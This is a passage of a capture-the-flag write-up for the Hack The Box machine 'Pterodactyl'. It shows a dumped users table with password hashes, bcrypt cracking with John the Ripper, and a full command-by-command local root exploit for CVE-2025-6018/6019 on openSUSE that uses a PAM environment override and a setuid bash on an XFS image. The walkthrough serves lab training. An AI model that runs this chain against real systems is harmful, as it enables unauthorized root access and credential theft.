           name_first: Head
            name_last: Monitor
             password: $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
       remember_token: OL0dNy1nehBYdx9gQ5CT3SxDUQtDNrs02VnNesGOObatMGzKvTJAaO0B1zNU
             language: en
           root_admin: 1
             use_totp: 0
          totp_secret: NULL
totp_authenticated_at: NULL
             gravatar: 1
           created_at: 2025-09-16 17:15:41
           updated_at: 2025-09-16 17:15:41
*************************** 2. row ***************************
                   id: 3
          external_id: NULL
                 uuid: ac7ba5c2-6fd8-4600-aeb6-f15a3906982b
             username: phileasfogg3
                email: phileasfogg3@pterodactyl.htb
           name_first: Phileas
            name_last: Fogg
             password: $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
       remember_token: 6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8
             language: en
           root_admin: 0
             use_totp: 0
          totp_secret: NULL
totp_authenticated_at: NULL
             gravatar: 1
           created_at: 2025-09-16 19:44:19
           updated_at: 2025-11-07 18:28:50
2 rows in set (0.000 sec)

ERROR: No query specified
```

### Cracking the Hash using John the Ripper

Saving the hash locally for some offline cracking action.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ cat phileasfogg3.hash 
$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
```

Time to throw `John the Ripper` at it with the trusty `rockyou.txt` wordlist.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ sudo john phileasfogg3.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)     
1g 0:00:02:05 DONE (2026-02-07 21:55) 0.007945g/s 110.4p/s 110.4c/s 110.4C/s ainsley..stretch
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password `!QAZ2wsx` was successfully retrieved.

| Password |
| -------- |
| !QAZ2wsx |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh phileasfogg3@10.129.109.212
The authenticity of host '10.129.109.212 (10.129.109.212)' can't be established.
ED25519 key fingerprint is: SHA256:FOOqnHbybkpXftYgyrorbBxkgW0L4yMSLYxG8F87SDE
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.109.212' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
(phileasfogg3@10.129.109.212) Password: 
Have a lot of fun...
Last login: Sat Feb 7 22:57:31 2026 from 10.10.16.21
phileasfogg3@pterodactyl:~>
```

## Enumeration (phileasfogg3)

And once more we performed our basic enumeration for the `phileasfogg3` user.

```shell
phileasfogg3@pterodactyl:~> id
uid=1002(phileasfogg3) gid=100(users) groups=100(users)
```

The user had full sudo privileges but required a password.

```shell
phileasfogg3@pterodactyl:~> sudo -l
[sudo] password for phileasfogg3: 
Matching Defaults entries for phileasfogg3 on pterodactyl:
    always_set_home, env_reset, env_keep="LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS XDG_SESSION_COOKIE", !insults, secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin, targetpw

User phileasfogg3 may run the following commands on pterodactyl:
    (ALL) ALL
```

Since we knew that a `mail server` was involved, we checked if our current user had any `mails`. The mail referenced unusual `udisksd` activity which provided a hint toward the privilege escalation vector.

```shell
phileasfogg3@pterodactyl:~> cat /var/mail/phileasfogg3 
From headmonitor@pterodactyl Fri Nov 07 09:15:00 2025
Delivered-To: phileasfogg3@pterodactyl
Received: by pterodactyl (Postfix, from userid 0)
id 1234567890; Fri, 7 Nov 2025 09:15:00 +0100 (CET)
From: headmonitor headmonitor@pterodactyl
To: All Users all@pterodactyl
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Message-ID: 202511070915.headmonitor@pterodactyl
Date: Fri, 07 Nov 2025 09:15:00 +0100
MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Attention all users,

Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required.

Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates.

Report any signs of compromise immediately to headmonitor@pterodactyl.htb

— HeadMonitor
System Administrator
```

## Privilege Escalation to root

### CVE-2025-6018 & CVE-2025-6019: SUSE 15 PAM Local Privilege Escalation (LPE) via libblockdev/udisks

Based on the mail hint about `udisksd` activity some research led to discovering that `SUSE 15` systems are vulnerable to a chain of local privilege escalation vulnerabilities involving `PAM` authentication bypass and `udisks` exploitation.

- [https://blog.qualys.com/vulnerabilities-threat-research/2025/06/17/qualys-tru-uncovers-chained-lpe-suse-15-pam-to-full-root-via-libblockdev-udisks](https://blog.qualys.com/vulnerabilities-threat-research/2025/06/17/qualys-tru-uncovers-chained-lpe-suse-15-pam-to-full-root-via-libblockdev-udisks)
- [https://cdn2.qualys.com/2025/06/17/suse15-pam-udisks-lpe.txt](https://cdn2.qualys.com/2025/06/17/suse15-pam-udisks-lpe.txt)

The system was indeed running `openSUSE Leap 15.6` which is vulnerable. We took a closer look at the `polkit` configuration.

```shell
phileasfogg3@pterodactyl:~> grep PRETTY_NAME= /etc/os-release
PRETTY_NAME="openSUSE Leap 15.6"
```

The configuration showed that active sessions can reboot without authentication.

```shell
phileasfogg3@pterodactyl:~> cat /usr/share/polkit-1/actions/org.freedesktop.login1.policy
<--- CUT FOR BREVITY --->
        <action id="org.freedesktop.login1.reboot">
                <description gettext-domain="systemd">Reboot the system</description>
                <message gettext-domain="systemd">Authentication is required to reboot the system.</message>
                <defaults>
                        <allow_any>auth_admin_keep</allow_any>
                        <allow_inactive>auth_admin_keep</allow_inactive>
                        <allow_active>yes</allow_active>
                </defaults>
                <annotate key="org.freedesktop.policykit.imply">org.freedesktop.login1.set-wall-message</annotate>
        </action>
<--- CUT FOR BREVITY --->
                <defaults>
                        <allow_any>auth_admin_keep</allow_any>
                        <allow_inactive>auth_admin_keep</allow_inactive>
                        <allow_active>auth_admin_keep</allow_active>
                </defaults>
```

The result `challenge` indicated authentication would need to be bypassed. We created the `.pam_environment` file to manipulate `PAM` environment variables and trick the system into treating our session as active.

```shell
phileasfogg3@pterodactyl:~> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('challenge',)
```

```shell
phileasfogg3@pterodactyl:~> { echo 'XDG_SEAT OVERRIDE=seat0'; echo 'XDG_VTNR OVERRIDE=1'; } > .pam_environment
```

`Logging out` and `reconnecting` was necessary for the environment changes to take effect.

```shell
phileasfogg3@pterodactyl:~> exit
logout
Connection to 10.129.109.212 closed.
```

```shell
┌──(kali㉿kali)-[~]
└─$ ssh phileasfogg3@10.129.109.212
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
(phileasfogg3@10.129.109.212) Password: 
Have a lot of fun...
Last login: Sat Feb  7 22:57:31 2026 from 10.10.16.21
Last login: Sat Feb 7 23:26:36 2026 from 10.10.16.21
phileasfogg3@pterodactyl:~>
```

And we got a successful result which verified that the `bypass` worked.

```shell
phileasfogg3@pterodactyl:~> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method org.freedesktop.login1.Manager.CanReboot
('yes',)
```

Next the malicious `filesystem image` needed to be prepared on our local machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ dd if=/dev/zero of=./xfs.image bs=1M count=300
300+0 records in
300+0 records out
314572800 bytes (315 MB, 300 MiB) copied, 0.305117 s, 1.0 GB/s
```

For the formatting we used `XFS`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ mkfs.xfs ./xfs.image
Command 'mkfs.xfs' not found, but can be installed with:
sudo apt install xfsprogs
Do you want to install it? (N/y)y
sudo apt install xfsprogs
[sudo] password for kali: 
Installing:                     
  xfsprogs

Suggested packages:
  xfsdump  quota

Summary:
  Upgrading: 0, Installing: 1, Removing: 0, Not Upgrading: 231
  Download size: 1,221 kB
  Space needed: 4,489 kB / 6,388 MB available

Get:1 http://kali.download/kali kali-rolling/main amd64 xfsprogs amd64 6.17.0-2 [1,221 kB]
Fetched 1,221 kB in 0s (3,492 kB/s)
Selecting previously unselected package xfsprogs.
(Reading database ... 811669 files and directories currently installed.)
Preparing to unpack .../xfsprogs_6.17.0-2_amd64.deb ...
Unpacking xfsprogs (6.17.0-2) ...
Setting up xfsprogs (6.17.0-2) ...
update-initramfs: deferring update (trigger activated)
Created symlink '/etc/systemd/system/system.slice.wants/system-xfs_scrub.slice' → '/usr/lib/systemd/system/system-xfs_scrub.slice'.
Unit /usr/lib/systemd/system/system-xfs_scrub.slice is added as a dependency to a non-existent unit system.slice.
Created symlink '/etc/systemd/system/timers.target.wants/xfs_scrub_all.timer' → '/usr/lib/systemd/system/xfs_scrub_all.timer'.
Processing triggers for initramfs-tools (0.150) ...
update-initramfs: Generating /boot/initrd.img-6.17.10+kali-amd64
Processing triggers for libc-bin (2.42-5) ...
Processing triggers for man-db (2.13.1-1) ...
Processing triggers for kali-menu (2025.4.3) ...
Scanning processes...                                                                                                                                                                                                                                                                                                                                                                                                                     
Scanning linux images...                                                                                                                                                                                                                                                                                                                                                                                                                  

Running kernel seems to be up-to-date.

No services need to be restarted.

No containers need to be restarted.

No user sessions are running outdated binaries.

No VM guests are running outdated hypervisor (qemu) binaries on this host.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ mkfs.xfs ./xfs.image                          
meta-data=./xfs.image            isize=512    agcount=4, agsize=19200 blks
         =                       sectsz=512   attr=2, projid32bit=1
         =                       crc=1        finobt=1, sparse=1, rmapbt=1
         =                       reflink=1    bigtime=1 inobtcount=1 nrext64=1
         =                       exchange=0   metadir=0
data     =                       bsize=4096   blocks=76800, imaxpct=25
         =                       sunit=0      swidth=0 blks
naming   =version 2              bsize=4096   ascii-ci=0, ftype=1, parent=0
log      =internal log           bsize=4096   blocks=16384, version=2
         =                       sectsz=512   sunit=0 blks, lazy-count=1
realtime =none                   extsz=4096   blocks=0, rtextents=0
         =                       rgcount=0    rgsize=0 extents
         =                       zoned=0      start=0 reserved=0
```

Next we needed to mount the image to transfer a `bash` binary to it and to set the `setuid` bit on it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ mkdir ./xfs.mount
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ sudo mount -t xfs ./xfs.image ./xfs.mount
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ sudo cp /bin/bash ./xfs.mount
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ sudo chmod 04555 ./xfs.mount/bash
```

After that we `unmounted` it to finalize the weaponization and to `copy` the `image` to the box.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pterodactyl/files]
└─$ sudo umount ./xfs.mount
```

```shell
┌──(kali㉿kali)-[~/tmp/Pterodactyl]
└─$ scp ./xfs.image phileasfogg3@10.129.109.212:/tmp/
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
(phileasfogg3@10.129.109.212) Password: 
xfs.image                                                                                                                                                                                                                                                                                                                                                                                               100%  300MB  15.7MB/s   00:19
```

On the target we set up a loop device with our malicious image.

```shell
phileasfogg3@pterodactyl:/tmp> udisksctl loop-setup --file ./xfs.image --no-user-interaction
Mapped file ./xfs.image as /dev/loop0.
```

And then created a background process to continuously monitor for the mounted filesystem.

```shell
phileasfogg3@pterodactyl:/tmp> while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &
[1] 18835
```

As last step of the execution we triggered the `udisks` filesystem resize operation to mount our payload.

```shell
phileasfogg3@pterodactyl:/tmp> gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop0 --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
Error: GDBus.Error:org.freedesktop.DBus.Error.UnknownMethod: No such interface “org.freedesktop.UDisks2.Filesystem” on object at path /org/freedesktop/UDisks2/block_devices/loop0
```

The background process caught the mounted filesystem with our `setuid` bash and executed it.

```shell
/tmp/blockdev*/bash -p
bash-5.3#
```

## root.txt

```shell
bash-5.3# cat root.txt 
5a989ab96da2c0d1ea3acdb7dae35801
```
